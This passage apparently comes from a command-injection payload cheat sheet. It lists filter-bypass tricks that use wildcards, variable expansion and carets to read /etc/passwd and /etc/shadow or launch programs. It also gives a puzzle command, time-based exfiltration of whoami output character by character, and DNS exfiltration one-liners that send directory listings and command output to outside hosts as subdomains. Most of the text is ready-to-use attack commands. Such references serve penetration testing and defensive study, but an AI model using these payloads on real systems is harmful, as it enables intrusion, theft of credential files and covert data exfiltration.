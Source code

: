#### Bypass with variable expansion

```powershell
/???/??t /???/p??s??

test=/ehhh/hmtc/pahhh/hmsswd
cat ${test//hhh\/hm/}
cat ${test//hh??hm/}
```

#### Bypass with wildcards

```powershell
powershell C:\*\*2\n??e*d.*? # notepad
@^p^o^w^e^r^shell c:\*\*32\c*?c.e?e # calc
```

## Challenge

Challenge based on the previous tricks, what does the following command do:

```powershell
g="/e"\h"hh"/hm"t"c/\i"sh"hh/hmsu\e;tac$@<${g//hh??hm/}
```

## Time based data exfiltration

Extracting data : char by char

```powershell
swissky@crashlab:~$ time if [ $(whoami|cut -c 1) == s ]; then sleep 5; fi
real    0m5.007s
user    0m0.000s
sys 0m0.000s

swissky@crashlab:~$ time if [ $(whoami|cut -c 1) == a ]; then sleep 5; fi
real    0m0.002s
user    0m0.000s
sys 0m0.000s
```

## DNS based data exfiltration

Based on the tool from `https://github.com/HoLyVieR/dnsbin` also hosted at dnsbin.zhack.ca

```powershell
1. Go to http://dnsbin.zhack.ca/
2. Execute a simple 'ls'
for i in $(ls /) ; do host "$i.3a43c7e4e57a8d0e2057.d.zhack.ca"; done
```

```powershell
$(host $(wget -h|head -n1|sed 's/[ ,]/-/g'|tr -d '.').sudo.co.il)
```

Online tools to check for DNS based data exfiltration:
